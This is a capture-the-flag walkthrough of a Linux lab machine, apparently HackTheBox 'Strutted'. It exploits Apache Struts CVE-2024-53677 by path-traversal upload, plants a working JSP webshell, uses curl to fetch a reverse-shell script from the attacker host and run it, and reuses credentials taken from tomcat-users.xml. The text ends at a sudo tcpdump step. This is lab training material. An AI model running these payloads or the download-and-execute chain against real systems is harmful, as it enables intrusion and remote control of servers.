





<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.59 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 15:14 CET
Nmap scan report for 10.10.11.59
Host is up (0.044s latency).
Not shown: 64946 closed tcp ports (reset), 587 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.75 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http 

<br />

# Http Enumeration: -> Port 80

<br />

When we are going to list the `website` it redirects to -> `strutted.htb`, so we proceed to add it to the `/etc/hosts`:

<br />

```bash
echo "10.10.11.59 strutted.htb" >> /etc/hosts
```

<br />

Once done, we list the `website` again:

<br />


<br />

At the `bottom` of the page it says that we can `download` the `structure` of the `application` in a `.zip` file. So we go to `"Download"` at the `top right` and we do it.

<br />


<br />

As we can see, it seems to be an `utility` to `upload` images, let's `test` uploading one:

<br />


<br />

## Apache Struts: 

<br />

The image has been `uploaded` withouth troubles and if we `inspect` the `source code` of the `"Copy Shareable Link"` button, we can find the `path` in where it is `stored`:

<br />


<br />

But that's not the `key` point, `crucial` part is that when we `upload` an `image`, the page `redirects` to an `endpoint` called `"upload.action"`:

<br />

-> `http://strutted.htb/upload.action`

<br />

And as we `well` know, the presence of `.action` scripts `means` that `Apache Struts` is behind the `application`.

<br />


<br />

If we `remember`, we have `access` to the `source code`, so we can take a `look` and try to `find` the Apache Struts `version` in `use`.

After a time `looking` for this, we find the version `6.3.0.1` in the `"pom.xml"` file:

<br />

```xml
<properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>17</maven.compiler.source>
    <maven.compiler.target>17</maven.compiler.target>
    <struts2.version>6.3.0.1</struts2.version>
    <jetty-plugin.version>9.4.46.v20220331</jetty-plugin.version>
    <maven.javadoc.skip>true</maven.javadoc.skip>
    <jackson.version>2.14.1</jackson.version>
    <jackson-data-bind.version>2.14.1</jackson-data-bind.version>
</properties>
```

<br />

Once we know that, we search `vulnerabilities` for this `version` and there is a very recent one, the `CVE-2024-53677`.

<br />

## Apache Struts File Upload Vulnerability:

<br />

The CVE `consists` in a `file upload` vulnerability that allows an `attacker` to upload a malicious `.jsp` file as a `webshell` and consequently, achieve a `RCE` on the victim system. 

This [post](https://www.dynatrace.com/news/blog/tracing-apache-struts-cve-2024-53677/) explains very well the `vulnerability`. It says that `Apache Struts` has a number of  `interceptors` classes by default, including one called `"FileUploadInterceptor"`.

The `FileUploadInterceptor` class is the `key` to the `exploitation` because it allows us to `manipulate` the `file's` storage location on the server `before` it is `processed`. 

This happens because `FileUploadInterceptor` does not properly sanitize file `paths` when handling uploads. By `manipulating` the request parameters, we can perform a `path traversal` attack to store files `outside` the intended `directory`. If we upload a `.jsp` file to a web-accessible location, we can achieve `RCE` when the server processes it.

<br />

### Manual Exploitation:

<br />

Now are going to exploit the vuln `manually` step by step using the following [POC](https://github.com/EQSTLab/CVE-2024-53677) in where we can `found` the parameters that we need to `set`:

<br />

```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

<br />

1.- First, we open `Burp Suite` and `intercept` a random image `upload` request `removing` the `unnecessary` data from the image:

<br />



<br />

2.- Second, we change `"upload"` to `"Upload"` to activate the interceptor being able to `intercept` the file `before` it is uploaded. We also add a `java oneliner` to the image `data`:

<br />



<br />

3.- Then, we need to `add` a second file parameter to use the `interceptor` and `rename` the file using a `Path Traversal` and `.jsp` extension:

<br />



<br />

4.- And finally, if the `Path Traversal` was successfull, we can visit `"http://strutted.htb/hello.jsp"` and see the `uploaded` file:

<br />



<br />

### Webshell:

Now, we can `repeat` the process with the following `webshell` to be able to get the `RCE`:

<br />

```java
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\\n";
                }
                reader.close();
            }
        } else {
            output = "Unknown action.";
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
```

<br />

Once uploaded, we `run` a `whoami`:

<br />



<br />

Perfect!! We can `execute` commands as tomcat, let's gain `access` with a `Reverse Shell`.

To do it, firt we create a `"reverse.sh"` file and put it in the `/tmp` path of the victim system with `curl`:

<br />

- `http://strutted.htb/webshell.jsp?action=cmd&cmd=curl%2010.10.14.22/reverse.sh%20-o%20/tmp/reverse.sh`

<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.59 - - [08/Mar/2025 17:59:24] "GET /reverse.sh HTTP/1.1" 200 -
```

<br />

Now we can `execute` the `script` with the following `command`:

<br />

- `http://strutted.htb/webshell.jsp?action=cmd&cmd=bash%20/tmp/reverse.sh`

<br />

```bash
❯ sudo nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.59] 46340
bash: cannot set terminal process group (1034): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~$ id
id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
```

<br />

Intrusion ready!! Let's go with the Privilege Escalation!!

<br />

# Privilege Escalation: tomcat -> james

<br />

After a time enumerating the system, we found `credentials` in the `tomcat-users.xml` file at tomcat path `/var/lib/tomcat9/conf`:

<br />

```bash
<?xml version="1.0" encoding="UTF-8"?>
...[snip...]
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
...[snip]...
```

<br />

When we try to `log` with `su` into the user `james`, it doesn't work:

<br />

```bash
tomcat@strutted:~/conf$ su james
Password: 
su: Authentication failure
```

<br />

But it works for SSH:

<br />

```bash
❯ ssh james@10.10.11.59
james@10.10.11.59's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)
...[snip]...
james@strutted:~$ cd
james@strutted:~$ cat user.txt
1efebff443560ba883cf8e3c22xxxxxx
```

<br />

# Privilege Escalation: james -> root 

<br />

User `james` has the following `sudoers` privilege:

<br />

```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

<br />

He can run `tcpdump` as `root`. Searching in [GTFOBins](https://gtfobins.github.io/) for this `binary`, we find the following:

<br />


<br />
